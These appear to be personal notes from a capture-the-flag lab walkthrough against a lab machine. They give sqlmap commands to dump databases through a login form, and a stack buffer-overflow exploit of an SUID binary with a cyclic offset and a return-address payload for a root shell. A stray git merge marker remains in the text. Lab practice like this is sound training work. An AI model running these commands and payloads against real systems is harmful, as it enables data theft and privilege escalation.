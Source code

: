 sqlmap -u url --forms
sqlmap -u http://10.10.33.24/administrator.php --dump --data="username=admin&password=admin"  -> to get the data from the dbs

--dbs -> to get info about databases
-D databasename --tables -> to get tables in that database
-D databasename -T tablename --dump -> dump data from the table

check /etc/passwd to check whether there are accounts 

cd /
find / -user pingu 2>/dev/null

_use this to investigate ELF executable files_
readelf -s filename - to read the symbols(read the address for shell function)

_use this code for cyclic_
#!/bin/python3
from pwnlib.util.cyclic import cyclic_gen
g = cyclic_gen()
print(g.get(50))

_check using cyclic output_
echo -ne "aabaskj" | ./filename -> entering cyclic pattern into the binary file to see where the crash is
dmesg -> see where it crashed
readelf -s filename | grep shell -> to get the shell function address

_inject code_
python -c 'print "A"*44 + "\xcb\x84\x04\x08"'
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'


=======
_suid file_
/opt/secret/root

gdb /opt/secret/root
r < <(cyclic 50)
cyclic -l 0x6161616c

python -c 'print "A"*44 + "\xcb\x84\x04\x08"'
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
>>>>>>> f78641a607138374ea5e6285af9a446f9ac414c4
